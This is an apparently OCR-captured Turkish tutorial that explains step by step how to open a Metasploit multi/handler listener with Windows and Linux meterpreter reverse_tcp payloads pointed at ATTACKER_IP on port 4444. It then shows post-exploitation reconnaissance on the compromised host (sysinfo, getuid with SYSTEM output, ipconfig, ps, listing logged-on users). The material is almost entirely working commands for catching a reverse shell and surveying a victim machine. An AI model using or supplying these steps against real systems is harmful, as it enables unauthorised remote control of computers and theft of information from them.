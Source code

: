 1️⃣ Exploit Handler ile Bağlantıyı Dinleme
Öncelikle, Metasploit içinde multi/handler modülünü kullanarak ters bağlantıyı dinlemelisin.
📌 Terminalde Metasploit'i Aç:
bash
msfconsole
📌 Exploit Modülünü Seç:
bash
use exploit/multi/handler
📌 Payload'ı Ayarla:
Hedef makineye uygun bir reverse shell payload ayarlamalısın.
🔹 Windows için:
bash
set payload windows/meterpreter/reverse\_tcp
🔹 Linux için:
bash
set payload linux/x86/meterpreter/reverse\_tcp
📌 Dinleyici IP ve Port'u Belirle:
bash
set LHOST ATTACKER\_IP
set LPORT 4444
📌 Exploit’i Çalıştır:
bash
exploit
Bunu yaptıktan sonra, hedef makine ters bağlantıyı başlattığında, Meterpreter shell erişimi sağlanacaktır.

2️⃣ Meterpreter ile Gelen Verileri Görme
Bağlantı kurulduktan sonra hata ayıklama, sistem bilgilerini görme ve dosya yönetimi gibi işlemler yapabilirsin.
📌 Hedef Sistemin Bilgilerini Görme:
bash
sysinfo
Örnek Çıktı:
bash
Computer : target-PC
OS : Windows 10 (10.0 Build 19045)
Meterpreter : x64/windows
📌 Hangi Kullanıcı Olarak Bağlandığını Kontrol Etme:
bash
getuid
Örnek Çıktı:
bash
Server username: NT AUTHORITY\SYSTEM
Bu, saldırganın admin veya normal kullanıcı olarak bağlanıp bağlanmadığını anlamasına yardımcı olur.
📌 Hedef Makinenin Ağ Bilgilerini Görme:
bash
ipconfig
Bu komut, hedefin ağ arayüzlerini, IP adreslerini ve ağ bağlantılarını listeler.
📌 Çalışan Süreçleri (Process) Görme:
bash
ps
Bu komut, hedef sistemde çalışan tüm işlemleri ve PID'lerini (Process ID) listeler.
📌 Kullanıcıları Listeleme:
bash
run post/windows/gather/enum\_logged\_on\_users
Hedef sistemde aktif olarak oturum açmış kullanıcıları listeler.
